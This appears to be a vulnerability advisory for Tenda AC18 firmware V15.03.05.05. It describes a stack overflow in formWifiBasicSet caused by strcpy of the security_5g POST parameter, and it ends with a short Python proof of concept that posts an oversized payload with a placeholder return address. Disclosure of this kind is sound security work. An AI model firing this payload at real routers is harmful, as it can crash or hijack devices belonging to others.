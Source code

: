 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formWifiBasicSet` function. The `src` variable receives the `security_5g` parameter from a POST request and is later assigned to the `dest` variable, which is fixed at 256 bytes. However, since the user can control the input of `security_5g`, the statement `strcpy(dest, src);` can cause a buffer overflow. The user-provided `security_5g` can exceed the capacity of the `dest` array, triggering this security vulnerability.

![image-20240304212400706](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240304212400706.png)

![image-20240304211549237](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240304211549237.png)

![image-20240304211639911](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240304211639911.png)

## PoC

```python
import requests
from pwn import *

url = 'http://192.168.84.101/goform/WifiBasicSet'
payload = b'a' * 500 + p32(0xdeadbeef)
data = {
    'security_5g':payload, 
    'hideSsid':'1', 
    'ssid':'1',
    'security':'1', 
    'wrlPwd':'1', 
    'hideSsid_5g':'1', 
    'ssid_5g':'1', 
    'wrlPwd_5g': '1'
}

requests.post(url, data=data)
```

![image-20240304213056127](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240304213056127.png)